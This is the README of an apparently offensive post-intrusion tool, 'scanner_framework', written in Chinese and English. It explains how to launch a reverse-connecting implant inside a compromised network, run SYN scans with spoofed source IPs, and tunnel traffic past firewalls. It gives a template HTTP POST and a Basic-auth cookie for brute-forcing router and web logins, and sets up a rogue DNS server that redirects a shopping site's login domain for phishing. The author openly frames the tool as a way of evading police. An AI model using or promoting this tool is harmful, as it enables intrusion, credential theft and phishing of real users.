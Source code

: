﻿
## scanner_framework ##


中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro<br/>

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.<br/>


***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to use it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
using:arp<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
using:local<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解  [online crack]<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪  [tracert route]<br/>
using:tracert %ip/host%<br/>
抓取页面  [get a HTML page on server]<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能  [tunnal port]<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
启动DNS 服务器 [dns server]<br/>
using:dns [run|start] | add %host% %ip% | delete %ip%<br/>
获取外网IP 地址和粗略定位 [get internet ip no is internal network ip and get the location]<br/>
using:ip<br/>
显示帮助  [show help]<br/>
using:help<br/>
退出  [exit scanner]<br/>
using:quit<br/>

###在线破解  [About Online Crack]
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	
	什么是表达式?
	
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	**user=%username%&pass=%password%**<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小<br/>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Success
	
	now cracking!
	
	__network crack - target:192.168.1.103:80
	username:root password:toor__
	
	破解完成
	
	
	表达式函数:
	
	__base64(%string%)__ -- 采用base64 编码
	__time()__ -- 获取系统时间
	__len(%string%)__ -- 统计字符串长度
	__rnd([%low%-%up%])__ -- 在%low% 到%up% 之间生成随机数
	
	Example :
	
	破解水星的数据包 (其它都差不多,关键在Cookie):
	
	Cookie: a2404_pages=10; a2404_times=5; __Authorization=Basic%20base64(admin:%password%)__\r\n
	
	接下来会把%password% 先填充好之后再编码base64
	
	WARNING! 由于水平问题还做不出递归,请见谅 ..  
	



####DNS 服务器 [About DNS Server]

DNS 服务器是针对内网的信息钓鱼,比如通过伪造的站点来钓得更多的个人信息或者欺骗应用程序更新,如果上面的用法还不太明白的话可以看这里 [DNS server usualy use redirecting to phishing sites]<br/>

dns run 启动DNS 服务器 [run dns server]<br/>
dns exit 退出DNS 服务器 [exit dns server]<br/>
dns add m.login.taobao.com 127.0.0.1 把淘宝的手机登陆域名绑定到本地IP [point m.login.taobao.com to localhost via dns setting]<br/>
dns delete www.baidu.com 删除DNS 查询项目 [delete this record]<br/>


####端口转发原理 [tunnal port design]
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)

###Other

#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..